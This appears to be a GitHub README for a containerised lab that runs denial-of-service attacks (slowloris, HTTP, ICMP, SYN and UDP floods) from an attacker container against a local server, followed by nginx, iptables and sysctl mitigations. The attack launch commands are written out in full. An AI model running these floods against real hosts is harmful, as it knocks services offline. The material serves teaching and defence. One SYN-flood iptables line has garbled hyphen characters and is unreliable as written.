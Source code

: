 # dos-attack-examples
Test couple of possible dos attacks via 2 containers: client (attacker) and server (defender)

1. Build attacker image
```shell
docker build -f ./attacker/Dockerfile -t dos-attacker ./attacker
```

2. Start defender container and create network
```shell
docker-compose up -d
```

## Attacks

### Slowloris
Run `attacker/scripts/slowloris.php` to send hanging 100 GET requests to http://dos-server
```shell
docker run -it --rm \
  --name slowloris \
  -v "$(pwd)"/attacker/scripts:/usr/scripts \
  --network="dos-attack-examples_custom-net" \
  dos-attacker \
  php /usr/scripts/slowloris.php get 100 dos-server attacker-host
```

### Http flood
Run `attacker/scripts/http_flood.php` to send 100 async GET requests to http://dos-server 5 times

```shell
docker run -it --rm \
  --name http-flood \
  -v "$(pwd)"/attacker/scripts:/usr/scripts \
  --network="dos-attack-examples_custom-net" \
  dos-attacker \
  php /usr/scripts/http_flood.php http://dos-server 100 5
```

### Ping flood (ICMP flood)
Run `attacker/scripts/ping_flood.sh` script to send ping requests

```shell
docker run -it --rm \
  --name ping-flood \
  -v "$(pwd)"/attacker/scripts:/usr/scripts \
  --network="dos-attack-examples_custom-net" \
  dos-attacker \
  sh /usr/scripts/ping_flood.sh
```

### Long ping flood
Run `attacker/scripts/long_ping.sh` script to sending an IP packet larger than the 65,536 bytes

```shell
docker run -it --rm \
  --name ping-flood \
  -v "$(pwd)"/attacker/scripts:/usr/scripts \
  --network="dos-attack-examples_custom-net" \
  dos-attacker \
  sh /usr/scripts/long_ping.sh
```

### SYN flood
Run `attacker/scripts/syn_flood.php` script to sending an SYN requests without ACK for 10 seconds with 65000 bytes packets

```shell
docker run -it --rm \
  --name ping-flood \
  -v "$(pwd)"/attacker/scripts:/usr/scripts \
  --network="dos-attack-examples_custom-net" \
  dos-attacker \
  php /usr/scripts/syn_flood.php host=dos-server port=80 time=10 bytes=65000
```

### UDP flood
Run `attacker/scripts/udp_flood.php` script to sending random UDP requests for 10 seconds to dos-server

```shell
docker run -it --rm \
  --name ping-flood \
  -v "$(pwd)"/attacker/scripts:/usr/scripts \
  --network="dos-attack-examples_custom-net" \
  dos-attacker \
  php /usr/scripts/udp_flood.php dos-server 10
```

## Protection

### Nginx protection from slowloris
Protections details - https://www.nginx.com/blog/mitigating-ddos-attacks-with-nginx-and-nginx-plus/

Nginx conf file: `./server/conf/nginx/default.conf`

### Nginx protection from http flood
The simplest way is to block IP with subnet
```
location / {
    deny 192.168.1.0/24;
}
```

### OS protections from http flood
```shell
iptables -A INPUT -s 192.168.1.0/24 -j DROP
```

Or more common way to use WAF (Web application firewall). Example - https://www.cloudflare.com/lp/ppc/waf-x

### Protection from SYN flood
Edit `/etc/sysctl.conf`

```
net.ipv4.tcp_syncookies = 1
net.ipv4.tcp_max_syn_backlog = 256
net.ipv4.tcp_synack_retries = 2
net.ipv4.tcp_abort_on_overflow = 1
```

or via iptables

```shell
iptables ­A INPUT ­p tcp ­­syn ­m limit ­­limit 1/s 
         ­­limit­burst 3 ­j RETURN
```

### Ping and long ping protection via iptables
```
iptables -I FORWARD -i docker0 -p icmp -j DROP
```

### UPD flood protection via iptables
```shell
iptables -N udp-flood
iptables -A OUTPUT -p udp -j udp-flood
iptables -A udp-flood -p udp -m limit --limit 10/s -j RETURN
iptables -A udp-flood -j LOG --log-level 4 --log-prefix 'UDP-flood attempt: '
iptables -A udp-flood -j DROP
```
